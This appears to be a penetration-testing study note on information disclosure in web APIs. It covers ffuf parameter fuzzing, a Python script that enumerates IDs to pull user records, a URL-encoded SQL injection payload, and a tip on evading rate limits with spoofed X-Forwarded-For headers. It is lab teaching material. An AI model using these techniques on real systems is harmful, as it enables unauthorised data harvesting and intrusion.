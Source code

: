 # Information Disclosure
Security-related inefficiencies or misconfigurations in a web service or API can result in information disclosure.

When assessing a web service or API for information disclosure, we should spend considerable time on fuzzing.
## Information Disclosure through Fuzzing
Suppose we are assessing an API residing in `http://<TARGET IP>:3003`.

Maybe there is a parameter that will reveal the API's functionality. Let us perform parameter fuzzing using _ffuf_ and the [burp-parameter-names.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/burp-parameter-names.txt) list, as follows:
```shell
ffuf -w "/home/htb-acxxxxx/Desktop/Useful Repos/SecLists/Discovery/Web-Content/burp-parameter-names.txt" -u 'http://<TARGET IP>:3003/?FUZZ=test_value' -fs 19
```
- We notice a similar response size in every request, so we can use `-fs` to filter out the response size

It looks like _id_ is a valid parameter. Let us check the response when specifying _id_ as a parameter and a test value.
```shell
curl http://<TARGET IP>:3003/?id=1
```
- We get the id, username, and position of user with `id=1`

We can create a Python script that could automate retrieving all information that the API returns (save it as `brute_api.py`):
```python
import requests, sys

def brute():
    try:
        value = range(10000)
        for val in value:
            url = sys.argv[1]
            r = requests.get(url + '/?id='+str(val))
            if "position" in r.text:
                print("Number found!", val)
                print(r.text)
    except IndexError:
        print("Enter a URL E.g.: http://<TARGET IP>:3003/")

brute()
```
- We import two modules _requests_ and _sys_. 
	- _requests_ allows us to make HTTP requests (GET, POST, etc.),
	- _sys_ allows us to parse system arguments.
- We define a function called _brute_, and then we define a variable called _value_ which has a range of _10000_. _try_ and _except_ help in exception handling.
- _url = sys.argv[1]_ receives the first argument.
- _r = requests.get(url + '/?id='+str(val))_ creates a response object called _r_ which will allow us to get the response of our GET request. We are just appending _/?id=_ to our request and then _val_ follows, which will have a value in the specified range.
- _if "position" in r.text:_ looks for the _position_ string in the response. If we enter a valid ID, it will return the position and other information. If we don't, it will return _[]_.

We can now run this script:
```shell
python3 brute_api.py http://<TARGET IP>:3003
```

> **TIP**: If there is a rate limit in place, you can always try to bypass it through headers such as X-Forwarded-For, X-Forwarded-IP, etc., or use proxies.
## Information Disclosure through SQL Injection
We can also submit classic SQLi payloads to test for SQLi.

At the end of our curl request, we can add a payload such as `'OR 1=1' OR 1` and URL encode:
```
curl http://<TARGET IP>:3003/?id=1%27%4f%52%20%31%3d%31%27%20%4f%52%20%31%0a
```

We can use the [[/Offensive Security Techniques/Web Exploitation Techniques/SQL Injection/]] page to test for more SQLi in real scenarios.